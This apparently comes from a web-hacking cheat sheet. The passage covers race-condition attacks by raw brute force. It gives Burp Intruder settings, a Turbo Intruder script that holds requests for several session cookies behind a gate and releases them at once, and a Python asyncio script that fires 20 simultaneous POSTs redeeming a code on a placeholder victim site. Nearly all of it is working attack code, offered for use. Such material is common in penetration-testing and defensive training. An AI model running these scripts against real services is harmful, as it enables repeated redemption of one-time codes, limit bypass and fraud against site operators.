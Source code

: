   
![spaces_-L_2uGJGU7AVNRcqRvEi_uploads_fo1FdvsJdJLBtaUzNMTS_image](https://github.com/Mehdi0x90/Web_Hacking/assets/17106836/c89ba370-bd3d-437d-8a17-2ffe7feb6ed5)


## Raw BF
Before the previous research these were some payloads used which just tried to send the packets as fast as possible to cause a RC.

* **Repeater:** Check the examples from the previous section.
* **Intruder:** Send the request to Intruder, set the number of threads to 30 inside the Options menu and, select as payload Null payloads and generate 30.
* **Turbo Intruder**
```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=5,
                           requestsPerConnection=1,
                           pipeline=False
                           )
    a = ['Session=<session_id_1>','Session=<session_id_2>','Session=<session_id_3>']
    for i in range(len(a)):
        engine.queue(target.req,a[i], gate='race1')
    # open TCP connections and send partial requests
    engine.start(timeout=10)
    engine.openGate('race1')
    engine.complete(timeout=60)

def handleResponse(req, interesting):
    table.add(req)

```

**Python - asyncio**
```python
import asyncio
import httpx

async def use_code(client):
    resp = await client.post(f'http://victim.com', cookies={"session": "asdasdasd"}, data={"code": "123123123"})
    return resp.text

async def main():
    async with httpx.AsyncClient() as client:
        tasks = []
        for _ in range(20): #20 times
            tasks.append(asyncio.ensure_future(use_code(client)))
        
        # Get responses
        results = await asyncio.gather(*tasks, return_exceptions=True)
        
        # Print results
        for r in results:
            print(r)
        
        # Async2sync sleep
        await asyncio.sleep(0.5)
    print(results)

asyncio.run(main())

```
